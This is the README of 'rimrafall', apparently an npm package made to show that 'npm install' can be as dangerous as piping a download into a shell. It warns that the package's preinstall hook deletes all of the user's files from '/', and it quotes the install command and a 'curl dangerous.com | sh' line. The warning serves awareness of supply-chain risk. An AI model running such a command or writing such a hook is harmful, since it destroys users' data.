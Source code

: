 # rimrafall

This is to show that `npm install` can be as dangerous as `curl dangerous.com | sh`.

# Whatever you do, do not

```
npm install rimrafall
```

It has a [`preinstall` script](https://github.com/joaojeronimo/rimrafall/blob/master/package.json#L7) that will delete all the files and folders your current user owns, recursively, in `/`.
